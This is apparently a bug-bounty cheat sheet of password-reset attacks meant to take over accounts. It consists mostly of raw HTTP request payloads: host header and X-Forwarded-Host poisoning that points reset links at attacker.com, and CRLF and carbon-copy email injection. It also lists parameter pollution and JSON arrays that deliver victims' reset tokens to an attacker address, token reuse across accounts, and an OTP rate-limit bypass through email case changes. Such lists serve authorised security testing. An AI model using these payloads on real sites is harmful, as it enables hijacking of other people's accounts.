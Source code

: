 ##### HOST HEADER INJECTION
````
POST /reset
HOST: attacker.com
````

##### OVERRIDE HOST HEADER
````
POST https://target.com/reset
HOST: attacker.com
````

##### AMBIGUATE HOST HEADER
````
POST /reset
HOST: target.com@attacker.com


HOST: target.com:@attacker.com
HOST: target.com: attacker.com
````
##### other techniques
````
POST @attacker.com/reset
HOST: target.com


POST /reset@attacker.com#
HOST: target.com
````
##### DOUBLE HOST
````
POST /reset
HOST: target.com
HOST: attacker.com


add space in the host
POST /reset
HOST: target.com
 HOST: attacker.com

````
##### X-FORWARDED-FOR
````
POST /reset
HOST: attacker.com
X-FORWARDED-HOST: attacker.com



POST /reset
HOST: attacker.com
X-FORWARDED-HOST: target.com


POST /reset
HOST: target.com
X-FORWARDED-HOST: attacker.com
Referer: https://attacker.com


POST /reset
HOST: target.com
X-FORWARDED-HOST: attacker.com
X-FORWARDED-FOR: attacker.com



POST /reset
HOST: target.com
X-FORWARDED-HOST: 0177.1
X-FORWARDED-FOR: 0177.1
````


##### Bypassing regex check on the host header
````
- target.com.attacker.com
- attacker.com/target.com
- attacker.com%23@target.com
- attacker.com%25%32%33@target.com


````
##### PARAMETER FUZZING USING BURP PARAMINER
 ````
 POST /reset
HOST: target.com

FUZZ 
 ````
 
 ##### SIGNING UP WITH TAMPERED EMAIL
 signup with email samsec@gmail.com.id.burpcollaborator.net and reset password for this email.
  we will recieve requests from internal server + SMTP connection details. and also we may get Internal headers + origin IP
   ````
   http://site.com/admin = (403)
   http://site.com/admin = (Headers + Origin IP = pwn)
   ````
 ````
 POST /reset
 
 email=test@123.burpcollaborator.net
 ````
 ##### EMAIL TAMPERING TO RECEIVE PASS RESET LINK IN ATTACKER EMAIL
 CRLF AND CARBON COPY INJECTION
 ````
 POST /reset
 HOST: target.com
 
 email=victim@gmail.com%0a%0dcc:attacker.com
 ````
 
 
 another methods
 - PARAMETER POLLUTION
```` email=victim@gmail.com&email=attacker@gmai.com````
 - SENDING TWO EMAIL AS ARRAY IN JSON AND ALSO CHANGING CONTENT-TYPE TO application/json(if the application is sending the email as json, then try sending the email as array)
    ```` 
    POST /reset
    HOST: target.com
    Content-Type: application/json
    
    
    {"email":["victim@gmail.com","attacker@gmail.com"]}

    ````
 - using separator , | OR  %20
  ```` email=victim@gmail.com,attacker@gmail.com ````
  
  #### APPENDING .JSON TO THE ENDPOINT
  this may give the token in response
  ````
  POST /reset.json
  HOST: target.com
  ````
  #### CRLF IN THE ROUTE
  ````
  POST /reset?%oa%odHost:attacker.com
  Host: target.com
  ````
#### CHANGING REQUEST METHOD
````
PUT /reset
host: target.com
Content-Type: application/json

email= victim@gmail.com
````
#### see response after sending email in reset endpoint , it may leak email and token

### /reset/changepass

put unused token of attacker@gmail.com after issuing reset pass in the field of victim's change pass request
````
POST /reset/change
Host: target.com

email=victim@gmail.com&token=[attacker_token]&old_pass=a&new_pass=b


````
#### Add Email parameter if there isn't email in request of reset/changepass
````
POST /reset/change
Host: target.com


added="email:victim@gmail.com"&token=token


````
### Observing the token that is generated for pass reset.
Send the password reset request link using intruder, so that the time duration between creating tokens is small and observe the difference in part of the pass reset.
Insert payload as  attacker@gmail.com, victim@gmail.com and run the intruder.
https://infosecwriteups.com/how-i-was-able-to-take-over-any-account-via-the-password-reset-functionality-ef1659f8b481 Read this article.

### Checking OTP function for password reset
Check out if the otp functions matches these steps
```
The OTP is a 4-digit code. (Can I bruteforce it? Maybe, if we are not rate limited.)
The OTP expires after 10 minutes or is invalidated after 3 incorrect attempts.
Before requesting a new OTP, the user must validate a captcha.
The OTP generation will cease after 5 new OTP requests.
```
The last step can be bypasssed by using upper and lower case email like generating 5 otp for samec@gmail.com and  5 for Samec@gmail.com .
Read this writeups for exploiting this scenario https://bhavukjain.com/blog/2023/07/08/account-takeover-custom-otp

